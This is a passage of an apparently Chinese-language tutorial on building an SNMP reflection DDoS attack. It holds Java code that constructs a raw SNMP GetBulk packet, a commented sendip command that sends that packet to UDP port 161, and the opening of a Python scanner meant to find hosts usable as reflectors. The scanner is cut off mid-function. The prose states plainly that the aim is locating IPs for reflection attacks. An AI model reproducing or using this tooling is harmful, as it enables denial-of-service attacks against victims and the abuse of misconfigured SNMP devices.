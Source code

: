 ```
        String value_len="00";

        /*
        tag+len+[versiontag+versionlen+versionvalues+Communitytag+Communitylen+Communityvalues+pdutag+pdulen+[requestid_tag+requestid_len+requestid_values+non_repeaters_tag+non_repeaters_len+
        non_repeaters_values+max_repeaters_tag+max_repeaters_len+max_repeaters_values+Variable_tag+Variable_len+[Item_tag+Item_len+[Object_tag+Object_len+Object_values+value_tag+value_len]]]]
        */
        String tmp="";
        int j=0;
        tmp=value_tag+" "+value_len;
        Object_len=sumlen(Object_values);
        Item_values=Object_tag+" "+Object_len+" "+Object_values+" "+tmp;
        Item_len=sumlen(Item_values);
        Variable_value=Item_tag+" "+Item_len+" "+Item_values;
        Variable_len=sumlen(Variable_value);
        tmp=Variable_tag+" "+Variable_len+" "+Variable_value;
        requestid_values=randomtohex(4); //报文随机id后面自带空格，所以下面字符串拼接时候不需要带空格
        pduvalue=requestid_tag+" "+requestid_len+" "+requestid_values+non_repeaters_tag+" "+non_repeaters_len+" "+non_repeaters_values+" "+max_repeaters_tag+" "+max_repeaters_len+" "+max_repeaters_values+" "+tmp;
        pdulen=sumlen(pduvalue);
        tmp=pdutag+" "+pdulen+" "+pduvalue;
        Communitylen=sumlen(Communityvalues);
        values=versiontag+" "+versionlen+" "+versionvalues+" "+Communitytag+" "+Communitylen+" "+Communityvalues+" "+tmp;
        len=sumlen(values);
        tmp=tag+" "+len+" "+values;
        System.out.println(tmp);
        System.out.println("0x"+qukongge(tmp));
        /*sendip -v -p ipv4 -is 192.168.1.101 -id 192.168.1.102 -p udp -us 8000 -ud 161 192.168.1.102 -d0x302602010104067075626c6963a519020440d32d10020100020164300b300906052b060102010500*/

    }
}

```

注意：getbulk的循环字段就是对应 snmpbulkget 里面的 –Cr 标识位。

第二为了有一定数量的能进行反射的主机，需要一个给力的扫描器，这里会有人想到用zmap来扫描，但是要知道， udp的扫描可不像tcp那种你发请求连接就肯定会有返回连接的，实测有很多udp程序只要你发的数据不符合他接收的格式时，他是无任何反应和回复的，就和这个ip没开相关端口是一样的效果，snmp也是符合这种情况的，所以需要自己在扫描指定ip的时候发送和正常snmp请求的包一样的数据包，来期盼正常的返回，来证明这个ip是否可以用来反射攻击。不知道大家住没注意到zmap是在不久之前才推出了snmp的扫描模块，这个模块我用过，不是太给力。下面是我用python写的一个循环调用sendip发包的程序，来扫描ip段的，里面的pdu是用刚才java编码程序生成出来的。发出的包用一个自写的java程序监听端口，如果有返回信息，就把返回的ip地址输出到文件。

python 3.4版本的

```
import os
import time
from pip.backwardcompat import raw_input

__author__ = 'qwe'

class ipScan(object):
    def __init__(self, begin, end):
        self.begin = begin
        self.end = end

    def traverseIP(self):
        begin_ip = []
        end_ip = []
        begin = self.begin.split(".")
        end = self.end.split(".")

```
